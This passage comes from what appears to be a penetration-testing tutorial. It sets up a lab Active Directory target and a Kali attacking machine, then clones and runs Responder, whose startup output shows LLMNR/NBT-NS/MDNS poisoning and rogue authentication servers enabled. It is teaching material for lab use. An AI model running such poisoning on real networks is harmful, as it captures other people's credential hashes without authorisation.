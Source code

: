 This will create a `Windows` machine with `Active Directory` installed
and configured. At this point, everything we need has been completed and
is ready for us to launch an attack.

Now we can set up our attacking machine. Here we are using [Kali
Linux](https://www.kali.org/) with `Vagrant` too, but you can use
whatever `OS` you prefer.

These are the tools that we are going to use:

- [smbmap](https://github.com/ShawnDEvans/smbmap)

- [Responder](https://github.com/SpiderLabs/Responder)

- [SecLists](https://github.com/danielmiessler/SecLists)

- [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)

If you are using `Kali`, the only thing that needs to be cloned is
`Responder`.

**cloning Responder.**

``` bash
git clone https://github.com/SpiderLabs/Responder
```

We are ready to go.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/penetration-testing/"
title="Get started with Fluid Attacks' Penetration Testing solution right now"
/>
</div>

## Starting the poisoner

The only thing we need to do is to run `Responder` as a root. We can do
this with the following:

**running Responder.**

``` bash
Responder$ sudo ./Responder.py -I eth1 -wrf
```

**Responder.**

``` bash
NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
```